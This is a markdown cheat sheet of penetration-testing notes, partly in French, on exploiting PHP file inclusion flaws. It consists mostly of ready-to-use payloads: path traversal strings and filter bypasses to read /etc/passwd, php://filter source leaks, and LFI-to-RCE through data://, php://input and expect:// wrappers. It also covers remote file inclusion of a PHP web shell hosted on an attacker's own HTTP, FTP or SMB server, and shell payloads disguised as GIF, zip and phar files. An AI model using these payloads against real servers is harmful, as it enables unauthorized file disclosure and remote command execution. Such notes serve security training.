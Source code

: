 ## File Inclusion / Local File Inclusion
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

> Différence entre Local File Inclusion & Path Traversal : https://www.perplexity.ai/search/c-est-quoi-la-difference-entre-IcqEhcTNSQG4xydII.zABA

## Basic LFI / Paf Traversal

```
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd
http://<SERVER_IP>:<PORT>/index.php?language=../../../../../../../../../../../../etc/passwd
http://<SERVER_IP>:<PORT>/index.php?language=..\..\..\C:\Windows\boot.ini
```

### Non-Recursive Path Traversal Filters case
When the application use this kind of function to detect & delete '../'

```php
$language = str_replace('../', '', $_GET['language']);
```
We can bypass it using :
```bash
....//....//....//....//etc/passwd
# URL encode from burp
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

### Approved Paths case
This time, if the application match a string in the URL : 

```bash
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```

We can bypass it using : 
```bash
?language=./languages/../../../../etc/passwd
```

### Path Truncation
In earlier versions of PHP, defined strings have a maximum **length of 4096 characters**, likely due to the **limitation of 32-bit systems**. 
If a longer string is passed, it will simply be **truncated**, and **any characters after the maximum length will be ignored**.

```bash
$  echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
non_existing_directory/../../../etc/passwd/./././<SNIP>././././
```

### Null Bytes
**PHP versions before 5.5** were vulnerable to **null byte injection**, which means that adding a null byte (**%00**) at the end of the string would terminate the string and not consider anything after it.

```bash
/etc/passwd%00
```

### PHP Filter to leak source code 
https://www.php.net/manual/en/filters.convert.php

```bash
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config

$ echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d

...SNIP...

if ($_SERVER['REQUEST_METHOD'] == 'GET' && realpath(__FILE__) == realpath($_SERVER['SCRIPT_FILENAME'])) {
  header('HTTP/1.0 403 Forbidden', TRUE, 403);
  die(header('location: /index.php'));
}

...SNIP...
```

### LFI to RCE
Check the current configuration of web serveur : (here apache)
```bash
$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

``allow_url_include`` -> Not enabled by default

Crafting payload

```bash
$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==

$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid


-> uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Usinng Input wrapper

```bash
$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Using Expect wrapper

```bash
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect

$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## Remote File Inclusion (RFI)

| Language | Function/Instruction          | Read Content | Execute | Remote URL |
|----------|------------------------------|:------------:|:-------:|:----------:|
| PHP      | include()/include_once()     |      ✅      |   ✅    |     ✅     |
| PHP      | file_get_contents()          |      ✅      |   ❌    |     ✅     |
| Java     | import                       |      ✅      |   ✅    |     ✅     |
| .NET     | @Html.RemotePartial()        |      ✅      |   ❌    |     ✅     |
| .NET     | include                      |      ✅      |   ✅    |     ✅     |

To exploit RFI, we need to check if allow_url_include is equal to "On"

```html
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

```bash
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Using web server
$ python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) .
# Using FTP server
$ python -m pyftpdlib -p 21
# Using SMB server
$ impacket-smbserver -smb2support share $(pwd)
```

```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id'
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id'
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
curl 'http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami'
```

### LFI to File Uploads

| Language | Function/Instruction        | Read Content | Execute | Remote URL |
|----------|----------------------------|:------------:|:-------:|:----------:|
| PHP      | include()/include_once()   |      ✅      |   ✅    |     ✅     |
| PHP      | require()/require_once()   |      ✅      |   ✅    |     ❌     |
| NodeJS   | res.render()               |      ✅      |   ✅    |     ❌     |
| Java     | import                     |      ✅      |   ✅    |     ✅     |
| .NET     | include                    |      ✅      |   ✅    |     ✅     |

Gif Payload

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
curl 'http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id'
```

Zip Payload

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
curl 'http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id'
```

Phar Payload

Phar content : 
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

```bash
$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id'
```

### PHP Session Poisoning & Server Log Poisoning 

| Language | Function/Instruction        | Read Content | Execute | Remote URL |
|----------|----------------------------|:------------:|:-------:|:----------:|
| PHP      | include()/include_once()   |      ✅      |   ✅    |     ✅     |
| PHP      | require()/require_once()   |      ✅      |   ✅    |     ❌     |
| NodeJS   | res.render()               |      ✅      |   ✅    |     ❌     |
| Java     | import                     |      ✅      |   ✅    |     ✅     |
| .NET     | include                    |      ✅      |   ✅    |     ✅     |